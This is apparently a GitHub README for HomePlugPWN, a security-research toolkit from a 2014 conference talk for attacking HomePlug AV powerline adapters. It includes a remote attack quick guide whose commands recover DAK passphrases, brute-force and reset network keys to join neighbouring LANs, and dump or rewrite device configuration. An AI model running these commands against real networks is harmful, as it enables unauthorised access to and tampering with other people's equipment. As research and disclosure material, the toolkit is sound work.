 HomePlugPWN
===========

HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1_03_Sebastien_Dudek_HomePlugAV_PLC.pdf

## Requirements 
- Python >= 2.6
- Scapy 2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address
- PIBdump.py: dumps your entire PLC configure (PIB) into a file
- patchPIB.py: patch arbitrary bytes of your PLC, or a field between bytes 0x0-0x400 (see the details of ModulePIB conditions in the Scapy layer). 

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Dump the entire PIB

The following tool aims to dump the entire PIB. You could also use the same techniques to dump the NVM or the Soft-Bootloader...

To process the dump use it as follows:

```bash
python2 ./PIBdump.py -i enp0s26u1u1 -o mycpl.pib
[...]
[+] PIB dump: Success!
```

A file containing your PLC Programmable Information Blocks (PIB) should be created as follows:

```bash
wc -c mycpl.pib 
16440 mycpl.pib
```

## Path your PIB

If you want to change your MAC address for example, you can specify the Scapy attribute to modify and its new value:

```bash
python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -t "PIBMACAddr" -v "c0:ff:ee:c0:ff:ee"
```

The MAC address should be changed after that for your targeted device. But if the addresses are read-only for this device, you have to hack a little bit to reflash it correctly.

Nevertheless, if you want to change any arbitrary byte use this command as follows:

```bash
 python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -a <start_addr>:<len> -v <value>
```

Like this, you can rewrite the tone map and any other field of your choice ;)

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities
